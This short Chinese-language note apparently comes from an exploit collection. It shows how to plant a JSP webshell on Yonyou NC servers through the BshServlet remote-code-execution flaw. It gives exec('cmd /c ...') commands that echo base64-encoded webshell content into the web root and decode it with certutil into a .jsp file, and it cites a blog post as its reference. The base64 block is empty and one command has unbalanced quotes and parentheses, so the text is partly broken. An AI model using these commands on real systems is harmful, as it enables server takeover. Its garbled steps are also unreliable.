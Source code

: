 直接写入webshell会将双引号也写入
```
exec(cmd /c echo \">shell<\") >shell.jsp;
```
shell.jsp的内容为
```
">shell<"
```

可先将webshell内容进行base64编码
```
```
再使用echo写入编码后的webshell
```
exec("cmd /c echo(123>webapps/nc_web/1.txt)
```
最后使用certutil解码webshell
```
exec("cmd /c certutil -f -decode webapps/nc_web/1.txt webapps/nc_web/1.jsp")
```

参考链接：  
https://jdr2021.github.io/2022/06/14/用友-NC-bsh-servlet-BshServlet-RCE-利用方法/